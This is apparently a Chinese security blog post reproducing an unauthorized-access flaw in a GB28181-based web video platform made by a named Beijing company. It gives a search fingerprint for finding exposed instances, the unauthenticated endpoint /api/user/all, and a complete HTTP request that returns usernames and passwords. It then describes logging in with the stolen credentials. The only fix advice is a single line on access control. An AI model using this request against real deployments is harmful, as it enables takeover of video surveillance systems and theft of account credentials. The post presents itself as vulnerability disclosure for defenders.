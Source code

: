#  【0day漏洞复现】北京慧飒科技有限责任公司WEB VIDEO PLATFORM存在未授权访问漏洞   
原创 猴子  花果山讲安全   2024-05-19 15:32  
  
- 0x01 阅读须知  
  
      花果山的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他行为！！！  
- 0x02 产品介绍  
  
      WEB VIDEO PLATFORM是一个基于GB28181-2016标准实现的开箱即用的网络视频平台，负责实现核心信令与设备管理后台部分，支持NAT穿透，支持海康、大华、宇视等品牌的IPC、NVR接入。支持国标级联，支持将不带国标功能的摄像机/直播流/直播推流转发到其他国标平台。  
- 0x03 漏洞描述  
  
        
北京慧飒科技有限责任公司WEB VIDEO PLATFORM存在未授权访问漏洞，攻击者可利用漏洞获取敏感信息及执行未授权操作。  
- 0x04 复现环境  
  
      title="国标28181"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/5OQxdkTBpVicTUH3nKSRAicDqiboH7ia6ZpBvHXHCVfzBqVQMd9XX0sQPWrrXdsNVkRwwtGU8soZoNgEQZbsDvFZ6Q/640?wx_fmt=png&from=appmsg "")  
- 0x05 漏洞复现  
  
通过API接口：http://xxx.xxx.xxx/api/user/all，可获取到用户名和密码。  
```
GET /api/user/all HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/5OQxdkTBpVicTUH3nKSRAicDqiboH7ia6ZpBjgz7oREOWoghtTPe1oF5NHcgeDxO1tUumLAjsaFF5OHx4KRfaQcevQ/640?wx_fmt=png&from=appmsg "")  
  
返回登陆页面使用用户名和密码登录，并替换掉刚才获取到的用户名和密码即可。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/5OQxdkTBpVicTUH3nKSRAicDqiboH7ia6ZpBZjicicdbP0TfgDEJWicQAF9th5afZbzorMJbXkiaEZcfvqaxclb9hs8bMA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/5OQxdkTBpVicTUH3nKSRAicDqiboH7ia6ZpBia4Wtma9LAmofq06d7QnkibVlZ196GHFLv61l2EILQL5KED0pLx815yA/640?wx_fmt=png&from=appmsg "")  
  
登录成功，至此漏洞复现结束。  
- 0x06 修复建议  
  
对页面进行严格的访问  
权限的控制。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/5OQxdkTBpVicTUH3nKSRAicDqiboH7ia6ZpBe8nXCu1tia7sYPOF5WdZ3mlrLIS7ejK057CN6ApB7CKRU4aU4icFHRWg/640?wx_fmt=png&from=appmsg "")  
  
  
